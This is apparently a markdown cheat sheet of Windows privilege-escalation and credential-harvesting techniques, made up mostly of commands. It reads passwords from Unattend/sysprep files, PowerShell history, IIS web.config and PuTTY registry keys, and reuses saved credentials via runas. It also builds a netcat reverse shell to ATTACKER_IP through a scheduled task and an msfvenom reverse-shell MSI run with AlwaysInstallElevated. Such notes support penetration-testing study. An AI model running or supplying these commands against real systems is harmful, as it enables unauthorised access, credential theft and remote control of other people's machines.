

# Windows

## Harvesting passwords from usual spots

Here can be passwords stored
<pre>
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
</pre>

### Powershell history
It can be stored in powershell history

use cmd.exe to execute this command
<pre>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</pre>

if you want to use powershell change `%userprofile%` to `$Env:userprofile`  

### Saved Windows Credentials
Here can be saved credentials, we can't see the password but we can use it to run cmd with user's privilage
<pre>
cmdkey /list

runas /savecred /user:admin cmd.exe</pre>

### IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations: 

<pre>

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    type C:\inetpub\wwwroot\web.config | findstr connectionString
</pre>

### PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

## quick escalation

### Scheduled Tasks

Run `schtasks` for list of sheduled tasks  
For details about task run `schtasks /query /tn TASK-NAME /fo list /v` 

To check if we the permissions we can rut `icacls FILE` 

if you can locate nc64.exe file you can get reverse shell
<pre>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TASK

nc -lvp 4444
</pre>

Than run that task manualy

`schtasks /run /tn TASK`

### AlwaysInstallElevated

These two registry needs to be set 
<pre>
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
</pre>

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

than run on target system 

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

